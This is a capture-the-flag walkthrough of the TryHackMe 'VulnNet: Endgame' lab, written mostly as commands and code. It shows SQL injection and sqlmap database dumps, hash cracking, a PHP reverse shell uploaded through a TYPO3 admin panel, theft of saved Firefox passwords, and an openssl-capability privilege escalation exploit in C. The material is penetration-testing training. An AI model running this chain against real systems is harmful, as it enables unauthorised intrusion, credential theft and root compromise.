


---
---

# THM - VulnNet: Endgame

NMAP


Add vulnnet.thm to /etc/hosts


- <u>Subdomain enumeration:</u>

```bash
wfuzz -v -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://vulnnet.thm -H "Host:FUZZ.vulnnet.thm" --hw 9

```
There is a bug when the width of the shown line is bigger than the screen. hc/hw/hh - all those don't work. Make the terminal as big as the output.


Add them to /etc/hosts:


Directory bruteforce on admin1.vulnnet.thm:


/fileadmin


/typo3 - Found the CMS


/typo3conf


- Looking at the first blog's source:


`http:// api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1`


You can change blog=


Check for SQLi




0r 1=1 -- works - SQLi proved

**<u>SQLMap</u>**

- **Open burp and catch the request (with parameters ie. blog=1)**


- **Save the request text to a file**
\#Or use the URL - but this way is better when POST requests are being used


- **Dump databases' names**

```bash
msqlmap -r request --batch --dbs

```


- **Dump tables for database vn_admin**
  
```bash
sqlmap -r request --batch -D vn_admin --tables

```


- **Dump columns for table be_users**
  
```bash
sqlmap -r request --batch -D vn_admin -T be_users --columns

```


- **Dump username and password columns**
  
```bash
sqlmap -r request --batch -D vn_admin -T be_users -C username,password --dump

```


user: **chris_w**

pass: **\$argon2i\$v=19\$m=65536,t=16,p=2\$UnlVSEgyMUFnYnJXNXlXdg\$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg**

Hash is in **argon2** format:

Attempted to crack it with a python script - Argon2_Cracker but it took too long and crashed

- Do the same for blog database:
  
```bash
sqlmap -r request --batch -D blog --tables

sqlmap -r request --batch -D blog -T users --columns

sqlmap -r request --batch -D blog -T users -C username,password,id --dump

```


- Or just do:
  
```bash
sqlmap -r request --batch --dump-all --exclude-sysdb

```
The output is in:

```bash
~/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/users.csv

```


- I used the program I made and split the csv to get the passwords column and save in **pass.txt**

- Crack, the hash found before, with john:
  
```bash
john hash_argon --wordlist=pass.txt

```


**chris_w : vAxWtmNzeTz**

- Login to the CMS with the credentials:


- We can see chris_w is an admin


- To get a shell:
<https://exploit-notes.hdks.org/exploit/web/cms/typo3-pentesting/>


\*ADMIN TOOLS -\> \*Settings -\>Configure Installation Wide Options...


Replace the line in there with:

```bash
\.(phpsh|phtml|pht|phar|shtml|cgi)(\..*)?$|\.pl$|^\.htaccess$

```
Download a php reverse shell:  
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

```
and change the IP and PORT

Upload the file:

Go to "FILE" → "Filelist" and upload the payload to the root of /fileadmin

Create a listener:

```bash
rlwrap -cAr nc -lvnp 4443

```
Go to:

`http:// admin1.vulnnet.thm/fileadmin/shell.php`

Shell:




There is a .mozilla directory


Firefox profiles can be extracted for passwords

<https://github.com/unode/firefox_decrypt>

- Use python3 http.server to copy the directories over to Kali


Run firefox_decrypt.py and put the directory that profiles.ini is in:

```bash
python3 firefox_decrypt.py 10.10.226.37:8083

```
- The problem is that the .ini file doesn't show all three profiles:


Edit the .ini file:


**2fjnrwth.default-release has logins.json file which is needed**

Run it again and choose 1:


Website: <https://tryhackme.com>

Username: 'chris_w@vulnnet.thm'

Password: '**8y7TKQDpucKBYhwsb**'

Since this was found in system's home folder:

```bash
su system

```
Enter password above


We can now use ssh instead:

```bash
ssh system@10.10.32.43

```


- Looking at the capabilities:

```bash
getcap -r / 2>/dev/null

```


The first line:

```bash
/home/system/Utils/openssl =ep

```
The capability **=ep** means the binary has **all capabilities**

**Exploit:**

<https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/openssl-privilege-escalation/>

Steps to exploit:

- Download the c libraries (on Kali):
  
```bash
sudo apt install libssl-dev

```
- Create "exploit.c"

```bash
#include <openssl/engine.h>
#include <stdlib.h>
#include <unistd.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 1; // Add a return value to match expected function signature
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

- Now compile it using gcc:
  
```bash
gcc -fPIC -o exploit.o -c exploit.c
gcc -shared -o exploit.so -lcrypto exploit.o

```
- Transfer from Kali to victim machine (with python)
  
```bash
chmod +x exploit.so
```

- Use the full path to openssl (as in getcap):
  
```bash
/home/system/Utils/openssl req -engine ./exploit.so

```


```bash
cat root.txt

```
